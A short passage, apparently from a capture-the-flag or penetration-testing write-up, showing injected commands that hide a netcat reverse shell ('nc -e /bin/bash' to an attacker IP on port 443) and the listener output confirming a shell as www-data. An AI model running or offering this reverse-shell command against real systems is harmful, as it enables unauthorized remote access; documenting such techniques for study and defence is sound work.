 That is just three commands:

    
    
    /usr/bin/python -c "print 'A'";
    nc -e /bin/bash 10.254.1.47 443;
    python -c "print 'B'"
    

In fact, it does return a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.1.1.20.
    Ncat: Connection from 10.1.1.20:56886.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

[](/2019/04/03/wl-devlife.html)

